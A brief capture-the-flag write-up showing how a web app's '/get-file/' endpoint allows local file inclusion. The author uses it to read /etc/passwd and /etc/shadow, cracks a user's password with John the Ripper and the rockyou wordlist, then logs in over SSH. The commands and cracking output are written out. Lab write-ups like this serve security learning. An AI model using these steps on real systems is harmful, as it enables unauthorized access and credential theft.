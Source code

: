 1. By viewing source, we know we can get files from server by sending request to `/get-file/<filename>`. And there is a file called `server.js`.
```
function getNote(note, id) {
        const url = '/get-file/' + note.replace(/\//g, '%2f')
        $.getJSON(url,  function(data) {
          document.querySelector(id).innerHTML = data.info.replace(/(?:\r\n|\r|\n)/g, '<br>');
        })
      }
      // getNote('server.js', '#note-1')
```
2. We get the source code of server by `lfi.py`, and there is a lfi at `fs.readFileSync`.
3. We then dump `/etc/passwd` and `/etc/shadow` and crack it.
```
$ /opt/john/run/unshadow passwd shadow > shadow.hash
$ john shadow.hash --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (charlie)
1g 0:00:00:00 DONE (2021-06-23 17:12) 8.333g/s 4266p/s 4266c/s 4266C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
4. Finally, login via ssh and get flag!
```
$ ssh charlie@10.10.86.199
$ cat flag.txt
```
